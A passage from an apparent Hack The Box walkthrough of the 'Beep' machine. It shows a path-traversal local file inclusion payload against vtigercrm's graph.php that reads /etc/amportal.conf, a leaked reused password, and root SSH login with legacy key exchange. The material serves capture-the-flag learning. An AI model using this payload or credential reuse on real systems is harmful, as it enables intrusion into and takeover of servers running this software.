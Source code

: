 ```apl
/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```

The first directory is `/vtigercrm`. Just to make sure it's there I navigated to it and found this:

<p align="center">
  <img src="{{ site.github.url }}/images/htb/beep/image-20210526204354450.png" />
</p>


Great! So it's there. Let's see if local file inclusion works now. I'm going to go ahead and type the following into the browser:

```apl
https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```

And it works!

<p align="center">
  <img src="{{ site.github.url }}/images/htb/beep/image-20210526204455057.png" />
</p>


This output is a bit ugly so we can make this cleaner by just viewing the page source. We can just right click the page and hit `View Page Source` or you can do `Ctrl+U` as a shortcut to get there.

<p align="center">
  <img src="{{ site.github.url }}/images/htb/beep/image-20210526204544307.png" />
</p>

This is much better now. The first thing I notice are we have credentials! There's a lot of them and we should always note these down. Something also interesting is that this `jEhdIekWmdjE` password is being reused a lot. Maybe this can be used else where? I'm going to try to `SSH` into the `root` user with these credentials and see if maybe it works.

## Root Access via SSH + Credentials Found Through LFI

```bash
ssh root@10.10.10.7
```

When doing this, I get the following output: `Unable to negotiate with 10.10.10.7 port 22: no matching key exchange method found. Their offer: diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1,diffie-hellman-group1-sha1`

&nbsp

Doing a quick Google search, if you use `ssh -oKexAlgorithms=+diffie-hellman-group1-sha1` in front of the IP address, it will work. This is apparently an issue due to clients wanting to authenticate with old algorithms so we need to tell SSH to use this to authenticate with the SSH server.

```bash
ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 root@10.10.10.7
root@10.10.10.7's password: 
Last login: Tue Jul 16 11:45:47 2019

Welcome to Elastix 
----------------------------------------------------

To access your Elastix System, using a separate workstation (PC/MAC/Linux)
Open the Internet Browser using the following URL:
http://10.10.10.7

[root@beep ~]# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
```